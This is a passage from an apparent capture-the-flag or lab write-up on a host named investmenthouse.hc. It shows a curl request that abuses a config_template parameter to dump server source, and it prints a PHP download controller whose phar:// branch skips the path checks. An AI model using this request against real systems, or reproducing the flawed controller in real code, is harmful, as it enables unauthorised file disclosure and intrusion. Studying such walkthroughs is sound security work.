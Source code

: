 ```bash
}
```

### Download Controller Analysis

The most interesting file is the download controller:

```bash
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/var/www/investmenthouse.hc/app/controllers/download.php' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<?php

if (isset($request->f) && !empty($request->f)) {
    $file = $request->f;

    if (strpos($file, '..') !== false) {
        die('Access Denied');
    }

    if (strpos($file, 'phar://') === 0) {
        $file_path = $file;

        if (!file_exists($file_path) || !is_file($file_path)) {
            die('File not found');
        }
    } else {
        if (strpos($file, 'uploads/') === 0) {
            $file = substr($file, 8);
        }

        $file_path = '../public/uploads/' . $file;

        if (!file_exists($file_path) || !is_file($file_path)) {
            die('File not found');
        }

        $real_path = realpath($file_path);
        $uploads_dir = realpath('../public/uploads/');

        if ($real_path === false || strpos($real_path, $uploads_dir) !== 0) {
            die('Access Denied');
        }
    }

    header("Content-Type: application/octet-stream");
    header("Content-Disposition: attachment; filename=\"" . basename($file_path) . "\"");
    header("Content-Length: " . filesize($file_path));
    readfile($file_path);
} else {
    die('Invalid parameter');
}
```
